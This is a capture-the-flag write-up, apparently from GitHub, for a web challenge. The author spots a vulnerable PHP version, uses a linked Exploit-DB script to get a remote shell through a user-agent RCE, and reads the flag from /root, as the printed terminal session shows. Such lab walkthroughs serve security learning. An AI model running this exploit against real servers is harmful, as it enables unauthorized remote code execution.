 ## challenge description


![Screenshot_20230725_010726](https://github.com/kiro6/writeups-ctfs/assets/57776872/25473ce1-0fd4-4578-bc32-c5a93a614c77)

### lets explore 

##### we have only one single page nothing in robots.txt ethier 
![Screenshot_20230725_010925](https://github.com/kiro6/writeups-ctfs/assets/57776872/62c432a0-d1a6-403f-b288-db55c99a8dbf)

##### lets try the repeater  , the first thing my eye saw was the PHP version 
![Screenshot_20230725_011132](https://github.com/kiro6/writeups-ctfs/assets/57776872/fde8d9b5-55ce-4a8b-8baf-0388a62e7c2f)

##### i searched for this version and it was vulnerable to user-agent RCE  

##### i used a script in exploit db [script](https://www.exploit-db.com/exploits/49933)

```
python3 49933.py    
Enter the full host url:  
http://139.144.184.115:8989/  
  
Interactive shell is opened on http://139.144.184.115:8989/    
Can't acces tty; job crontol turned off.  
$ ls  
index.php  
  
$ ls /  
bin  
boot  
dev  
etc  
home  
lib  
lib64  
media  
mnt  
opt  
proc  
root  
run  
sbin  
srv  
sys  
tmp  
usr  
var  
  
$ ls /root  
flag.txt  
  
$ cat /root/flag.txt  
BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```

### Easy one
